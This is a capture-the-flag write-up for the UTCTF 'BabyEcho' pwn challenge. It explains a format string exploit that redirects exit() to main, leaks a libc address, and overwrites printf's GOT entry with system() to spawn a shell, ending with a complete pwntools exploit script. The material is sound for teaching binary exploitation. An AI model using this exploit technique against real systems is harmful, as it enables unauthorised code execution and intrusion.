









# BabyEcho (pwn)
Despite it being worth 700 points, this had a low point value (the hardest pwn was worth 2000). However, this was a nice challenge to truly showcase how deadly format string bugs are.

## Problem Statement:



## Initial Analysis:
As always, with every binary exploitation problem, we begin by taking a look at the protections enabled on the binary:



Hmm, so the non-default settings are the lack of a stack canary, and no PIE (thank god). Let's try running this binary:


Well that was very simple! It just takes in an input string through stdin, and echos it back out to us! By now most pwners think that an echo-based challenge might have format strings be involved, and sure enough, when we send a %x into the binary:



Nice! However, this seems very limited, since we can only exploit it once (or can we?). Maybe there's something more in the disassembly?

## Disassembly Analysis:

Below is the code for the main method: (using Ghidra for the analysis)




Wow, it really was such a simple binary! It takes in 0x32 characters through stdin, and prints it out through printf. The fact that it uses fgets() means that there's no buffer overflow involved for this challenge, but the fact that the printf()'s first parameter was the input buffer meant that it was vulnerable to format string attacks!

## Format string attack

How can we get a shell through such a simple binary? System() isn't referenced anywhere in the binary, so we can't overwrite something in the Global Offset Table with it, and even if we can we won't be able to pass our input string as the input to it ("/bin/sh"). However, what's interesting is that this program calls exit() to terminate the program. Since exit() is referenced in the binary, sure enough, it is in the Global Offset Table:


What do we write to it though? Our biggest problem is that we only have one chance to exploit the binary before it exits out. However, in theory, what if we point it back to main()? If the program calls out exit(), it will instead call main, thus giving us a way to exploit the format string bug again as many times as we want!

Sure enough, when we point exit() back to main, we see the "Give me a string to echo back!" prompt again, and so we can echo out as many times as we want!

 overwritten!")

We now basically have infinite reading/writing capability to any region of memory that we want! The question now is: How do we get a shell?

# Libc leak

Although system() is not referenced in the Global Offset Table, all the C library functions are dynamically linked to the binary during runtime. Unfortunately, the address locations of these functions are random due to ASLR. However, one way to defeat ASLR is to leak the address of any libc function. ASLR will randomize the absolute address of all libc functions, but the offsets between any two libc functions are the same. Therefore, if we can leak the address of any libc function, we can calculate the address of any other function!

The next question is: How do we go about leaking any libc address? The Global Offset Table contains multiple libc addresses that we can leak, but the format string specifiers such as "%x" and "%d" can only leak values stored on the stack. However, we can use the %s primative to leak any memory location we want, as %s prints out values located in a POINTER that is located on the stack, rather than the values of the stack themselves. Since we control the stack, we can change the pointer to point to wherever we want!

Here's the output when we try to read out what's stored at address 0x804a018, which is the Global Offset Table of puts():



Hmm, this doesn't look readable. How does this tell us where puts() is actually located? Well, this is actually the address of puts() within the dynamically linked libc, it's just that it's in ascii format, whereas we want the hex value of puts() instead. 

This is where I turned to python and pwntools to build my exploit, as these tools can help me parse the program output much better. Sure enough, when I converted the leaked information to hex, the result does look like a dynamically linked libc address:

 obtained!")

Sweet, we now have the address of puts()! How do we calculate the address of everything else, particularly system()? 

If we run our current script multiple times, we will discover that while the leaked address of puts() is randomized many times, the last three digits of the address (0x140) are always constant. ASLR protections are applied on a page level basis, and pages in elf binaries are 4 KBs in size, so the lower 12 bits of the address remains the same.

How does that help us? Well, now we will use a tool known as the lib-c database (https://github.com/niklasb/libc-database), which contains multiple versions of C libraries. The Libc database also offers a search functionality to see which libc contains a address of puts() that ends with 0x140, and it also offers a dump functionality that dumps critical addresses such as system() from a given Libc ID. Here, we use the libc database to find the libc associated with the puts() offset of 0x140, and use that to dump the offset of system():



What does the output of this mean? Well, when a libc is loaded into the memory of a dynamically linked binary, it gets loaded into an address known as the libc base. This address will always end in three 0's, as it marks the beginning of the memory page for the libc. Here, the ./dump output indicates that the offset of puts is 0x5f140, which means that the address of puts is equal to the address of the libc base + 0x5f140. The same applies for system() as well. Therefore, we can calculate the offset for system as follows:

```
libc_base = puts - 0x5f140
system = libc_base + 0x3a940
```
We now therefore have the address for system!

# Getting a shell

Cool, now we know what to write. However, where do we write it? Again, the Global Offset Table looks promising, but since system() executes whatever's passed as the first parameter, we need to find a libc function with a first parameter that we can control.

There's not much that's in this simple binary, however printf() looks like a nice candidate to overwrite! First of all, it is called with only one parameter, and that parameter is the input buffer that we can control through stdin!

Finally, here comes the tricky part. The address of system() is constantly changing due to ASLR, so the number of bytes we will need to print out to be used in %n is dynamic. Fortunately, the binary is 32 bit, which means that addresses are only 4 bytes in size. We know the first byte (32 bit libc addresses always start with 0xf7), and we know the last byte (since the libc database indicates that system() offsets end with a 0x40). Furthermore, since global offset tables already contain libc addresses, we don't even need to write the 0xf7, which means we will only need to do three byte-sized writes.

Writing 0x40 to the least significant byte of the printf() offset table is easy; the 0x40 doesn't change. However, how do we write the next byte? Well, the fact that we had written 0x40 to an address somewhere indicates that we had already printed out 0x40 bytes. Therefore, for the second byte to write, we can calculate the number of additional characters to print out through the following: 

```
bytesToWrite = int(hex(system)[6:8], 16) - 0x40
payload3 += "%"
payload3 += str(bytesToWrite)
payload3 += "x%12$hhn"
```
What about the third byte? Well, this can be achieved through similar means:

```
thirdbytesToWrite = int(hex(system)[4:6], 16) - int(hex(system)[6:8], 16)
payload3 += "%"
payload3 += str(thirdbytesToWrite)
payload3 += "x%13$hhn"
```

What about the event that the 2nd byte to write is less than 0x40, or that the 3rd byte to write is less than the 2nd byte? It is possible to account for that by calculating the overflow, and subtracting 256 from it, however I was lazy. Since we are ''brute forcing'' 32 bit addresses, I just terminated my exploit when such a scenario presents itself, as it doesn't happen very often.

After a bit of trial and error, system was successfully written to the Global Offset Table of printf. Now the next time we just enter "/bin/sh" to get our shell!

## Full exploit script:
```python
from pwn import *
main = 0x804851b
exit = 0x804a01c
puts_got = 0x804a018
#Payload 1: Overwrite the exit GOT entry to main

sh = remote('stack.overflow.fail', 9002)

payload1 = "AA"
# Setting up the exit() overwrite
payload1 += p32(exit)
payload1 += p32(exit + 1)
payload1 += p32(exit + 2)
payload1 += p32(exit + 3)

payload1 += "%9x%11$hhn"
payload1 += "%106x%12$hhn"

sh.sendline(payload1)
# Leaking the address of puts

payload2 = "AA"
payload2 += p32(puts_got)
payload2 += "%11$s"

sh.sendline(payload2)
sh.recvuntil("\x18\xa0\x04\x08")

puts = u32(sh.recv(4))

log.success("Address of puts: " + hex(puts))
#Calculate libc base address and system
puts_offset = 0x5f140
system_offset = 0x3a940

libc_base = puts - puts_offset
system = libc_base + system_offset

log.success("Libc base address:" + hex(libc_base))
log.success("System address:" + hex(system))

#Overwrite the GOT address of printf with system. This part is tricky bc system is dynamic (ASLR is mean :( )
#We know that the address is of format f7xxx940. Let's set the last part to 0x40 (since f7 is already set)

printf_GOT = 0x804a010
payload3 = "AA"
payload3 += p32(printf_GOT)
payload3 += p32(printf_GOT + 1)
payload3 += p32(printf_GOT + 2)

payload3 += "%50x%11$hhn"
#Time to dynamically compute and write the 2nd byte
system_str = str(hex(system))
#We know we have written 40 bytes already.
second_byte_value = int(hex(system)[6:8], 16)
log.info("2nd part to write: " + hex(second_byte_value))

if second_byte_value < 0x40:
	log.failure("Need to do a wraparound, no thanks!")
	quit()
bytesToWrite = int(second_byte_value - 0x40)
log.info("Trying to write " + str(bytesToWrite) + " bytes")
payload3 += "%"
payload3 += str(bytesToWrite)
payload3 += "x%12$hhn"

#Time to dynamically compute and write the 3rd byte
third_byte_value = int(hex(system)[4:6], 16)
log.info("3rd part to write: " + hex(third_byte_value))

if third_byte_value <= second_byte_value:
	log.failure("Need to do a wraparound for 3rd byte, no thanks!")
	quit()
thirdbytesToWrite = int(third_byte_value - second_byte_value)
log.info("Trying to write " + str(thirdbytesToWrite) + " bytes")
payload3 += "%"
payload3 += str(thirdbytesToWrite)
payload3 += "x%13$hhn"

log.info("Payload 3: " + payload3)
sh.sendline(payload3)

#Send that /bin/sh string over to get that shell!

payload4 = "/bin/sh"
sh.sendline(payload4)
sh.interactive()
```
## Epilogue
This exploit took a few tries to run (because of my laziness). However, it works:



Thanks to the UTCTF team for this challenge! Format strings are very rare to find in the wild, but when they exist, the come with deadly consequences!
